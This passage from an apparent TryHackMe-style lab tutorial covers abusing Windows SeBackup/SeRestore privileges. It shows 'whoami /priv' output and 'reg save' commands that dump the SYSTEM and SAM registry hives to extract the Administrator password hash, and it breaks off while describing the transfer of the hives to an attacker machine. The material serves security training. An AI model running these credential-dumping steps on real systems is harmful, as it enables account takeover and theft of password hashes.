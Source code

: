 ## Abusing dangerous privileges

Privileges in Windows define the specific system-level actions a user account is permitted to perform. These range from basic tasks (like shutting down the system) to advanced permissions (such as bypassing file access controls).

To view the privileges assigned to your current user, run:

```
whoami /priv
```

Attackers focus on **abusable privileges** that allow privilege escalation. For a full list of exploitable privileges, refer to:

- [**Microsoft’s Official Privilege List**](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
- [**Priv2Admin Project**](https://github.com/gtworek/Priv2Admin) (Exploitable privileges and techniques)

We’ll demonstrate how attackers exploit common high-risk privileges—such as **S`eBackup / SeRestore`** or **`SeImpersonatePrivilege`**—to gain elevated access.

### **SeBackup / SeRestore**

These privileges allow users to perform backups from a system without requiring full administrative privileges, and they have read and write permission to any file in the system.

This means we can simply copy the system and SAM hives and extract the local Administrator's password hash.

```bash
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
C:\Windows\system32>reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\Windows\system32>reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
C:\Windows\system32>reg save hklm\system C:\Users\THMBackup\system.hive

```

Transfer the copied files to the attacking box so we can extract them. Here we are using `mbserver.py` to start a simple SMB server with a network share in the current directory of our AttackBox:
